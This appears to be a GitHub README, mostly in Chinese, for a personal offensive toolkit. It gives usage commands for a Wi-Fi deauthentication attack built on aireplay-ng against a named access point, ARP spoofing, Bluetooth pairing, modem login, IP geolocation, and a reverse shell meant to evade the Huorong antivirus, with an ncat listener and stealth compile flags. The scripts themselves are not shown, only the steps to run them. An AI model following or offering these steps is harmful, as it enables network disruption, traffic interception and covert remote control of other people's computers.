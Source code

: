 ## icu member sxsymxsyy
### deauth attack
用法
<code>bash 0.sh</code><br>
请在0.sh中自行添加<code>sleep</code><br>
并修改0.c中<code>main</code>函数里的信道<code>b</code><br>
3.py中的<code>addr2</code>和<code>addr3</code><br>
该项目相当于执行<br>
<code>aireplay-ng -0 <int类型> -a 1C:FF:59:33:7F:FF(AP) --ignore-negative-one -D wlan0</code><br>
如果要注释 那么请<code>cat 0.txt</code><br>
### 2.py
用法 <code>python3 2.py <IP地址></code><br>
请到<code>maxmind</code>下载<code>GeoLite2-City.mmdb</code>后运行
### metadata of movie or picture
用法 <code>python3 1.py</code><br>
步骤
<code>start ms-settings:privacy-location</code><br>
turn on location services let app camera access your location<br>
then <code>start microsoft.windows.camera:</code><br>
### gateway mac address
用法<br>
<code>pwsh</code><br>
<code>.\0.ps1</code><br>
<code>python3 0.py</code>
请将0.py中的<code>src</code>修改为<code>.\0.ps1</code>的输出<br>
### bluetooth pair
用法<br>
<code>python3 4.py</code><br>
### arp spoof
用法<br> 
<code>python3 9.py</code><br>
<code>python3 10.py</code><br>
修改10.py中的wlp3s0(网卡)<br>
local ethernet address && gateway ipv4 address<br>
### login optical modem
用法<br>
<code>gcc ./2.c -o 2</code><br>
<code>./2</code><br>
### bypass huorong reverse shell(small version)
用法<br>
<code>ncat -lvp 19482</code><br>
<code>g++ 0.cpp -o 00 -lws2_32 -s -O2 -static -static-libgcc -static-libstdc++ -mwindows</code>
需要修改0.cpp中的RyzU1
###### 2024年12月原创于中华人民共和国浙江省宁波市

